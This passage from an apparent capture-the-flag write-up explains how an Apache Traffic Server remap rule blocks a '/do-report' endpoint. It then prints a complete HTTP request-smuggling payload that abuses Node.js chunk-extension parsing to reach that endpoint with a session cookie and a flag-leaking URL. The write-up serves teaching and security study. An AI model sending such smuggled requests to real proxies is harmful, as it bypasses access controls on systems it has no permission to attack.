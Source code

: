 ## Part 2 - HTTP Request Smuggling

Once we gain access to the application, we would see a "Report Issue" feature which allows us to "submit a URL for the admin to check".

Yet, when we submit any URL, we are presented with the following error:

> Forbidden. Only local administrators can report issues for now.

Now is probably a good time to notice that the Express application is put behind a reverse proxy (Apache Traffic Server). The `remap.config` file specifies the URL mappings, and we could see that the `/do-report` endpoint is mapped to `/forbidden`.

```text
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

This access control mechanism prevents us from making a request to `/do-report`, unless we are doing so without going through the proxy.

Looking at the versions of Node.js and ATS used, we could find information on a HTTP request smuggling [issue](https://portswigger.net/daily-swig/node-js-was-vulnerable-to-a-novel-http-request-smuggling-technique) in the incorrect parsing of chunk extensions.

While a PoC is available, participants would need to modify it to suit this particular context.

Consider the following request, where each new line is delimited by `\r\n`.

```http
GET / HTTP/1.1\r\n
Host: localhost:8080\r\n
Transfer-Encoding: chunked\r\n
\r\n
3;\nxxx\r\n
139\r\n
0\r\n
\r\n
POST /do-report HTTP/1.1\r\n
Host: localhost:8080\r\n
Content-Length: 103\r\n
Cookie: connect.sid=s%3A4Tp_E2HJcMliL0-HBIe2gRJe0STpIOZW.hoetvVdAqJdACwI4BwIrHCmQR1nPjgY2YOxQMbJsDmU\r\n
Content-Type: application/json\r\n
\r\n
{"url":"http://localhost:8000/verify?token=TISC{c:n:9:4:i:7:c:n:e:m}#:~:text=TISC{1:3:3:7:l:3:4:k:1:a"}\r\n
0\r\n
\r\n
```

